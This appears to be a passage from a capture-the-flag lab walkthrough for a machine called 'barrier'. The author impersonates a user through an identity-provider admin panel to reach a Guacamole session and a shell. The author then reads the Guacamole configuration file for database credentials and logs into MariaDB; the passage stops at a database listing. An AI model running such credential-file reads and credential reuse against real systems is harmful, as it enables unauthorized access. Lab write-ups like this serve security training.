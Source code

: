 We find that there is also a user called `maki`. On `https://barrier.vl:9443/if/admin/#/identity/users` we choose to impersonate the user and then access `http://barrier.vl:8080/guacamole`.

This logs us in as maki and we can see, that there is one connection stored called "Maintenance":

![Maintenance Session](guacamole.png)

This gives us our first shell and the user flag.

## Privilege Escalation

Having a shell allows us to read the guacamole configuration file:


```
maki@barrier:~$ cat /etc/guacamole/guacamole.properties 
# MySQL properties
mysql-hostname: 127.0.0.1
mysql-port: 3306
mysql-database: guac_db
mysql-username: guac_user
mysql-password: ***

saml-idp-metadata-url: file:///opt/saml.xml
saml-idp-url: http://barrier.vl:9000/application/saml/guac/sso/binding/redirect/
saml-callback-url: http://barrier.vl:8080/guacamole/
saml-entity-id: http://barrier.vl:8080
saml-strict: false

saml-group-attribute: groups
saml-username-attribute: http://schemas.xmlsoap.org/ws/2005/05/identity/claims/upn

saml-compress-requests: true
saml-compress-responses: true

logback-level: INFO

guacd-hostname: localhost
guacd-port: 4822
guacd-ssl: false

saml-debug: true

extension-priority: saml
#extension-priority: *, saml
```

Besides the SAML options, we also see the database user and password. Let's connect and see if any other connections exist:

```
mysql -u guac_user -p
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 34
Server version: 10.6.18-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| guac_db            |
| information_schema |
```